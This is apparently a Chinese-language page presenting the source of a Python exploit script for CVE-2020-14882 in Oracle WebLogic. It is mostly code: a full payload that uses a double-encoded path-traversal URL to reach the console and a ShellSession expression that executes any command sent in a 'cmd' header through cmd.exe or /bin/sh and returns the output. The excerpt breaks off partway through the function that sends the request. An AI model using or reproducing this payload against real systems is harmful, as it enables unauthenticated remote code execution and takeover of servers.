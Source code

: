 ![截图](7b1b0fae07709ed042652c58fa5ebf0b.png)

脚本源码如下：

```
import http.client
import requests
import sys
import argparse
http.client.HTTPConnection._http_vsn_str = 'HTTP/1.0'

payload_cve_2020_14882_v12 = ('_nfpb=true&_pageLabel=&handle='
            'com.tangosol.coherence.mvel2.sh.ShellSession("weblogic.work.ExecuteThread executeThread = '
            '(weblogic.work.ExecuteThread) Thread.currentThread(); weblogic.work.WorkAdapter adapter = '
            'executeThread.getCurrentWork(); java.lang.reflect.Field field = adapter.getClass().getDeclaredField'
            '("connectionHandler"); field.setAccessible(true); Object obj = field.get(adapter); weblogic.servlet'
            '.internal.ServletRequestImpl req = (weblogic.servlet.internal.ServletRequestImpl) '
            'obj.getClass().getMethod("getServletRequest").invoke(obj); String cmd = req.getHeader("cmd"); '
            'String[] cmds = System.getProperty("os.name").toLowerCase().contains("window") ? new String[]'
            '{"cmd.exe", "/c", cmd} : new String[]{"/bin/sh", "-c", cmd}; if (cmd != null) { String result '
            '= new java.util.Scanner(java.lang.Runtime.getRuntime().exec(cmds).getInputStream()).useDelimiter'
            '("\\\\A").next(); weblogic.servlet.internal.ServletResponseImpl res = (weblogic.servlet.internal.'
            'ServletResponseImpl) req.getClass().getMethod("getResponse").invoke(req);'
            'res.getServletOutputStream().writeStream(new weblogic.xml.util.StringInputStream(result));'
            'res.getServletOutputStream().flush(); res.getWriter().write(""); }executeThread.interrupt(); ");')

def cve_2020_14882(url, cmd):
    payload = payload_cve_2020_14882_v12
    path = "/console/css/%252e%252e%252fconsole.portal"
    headers = {
```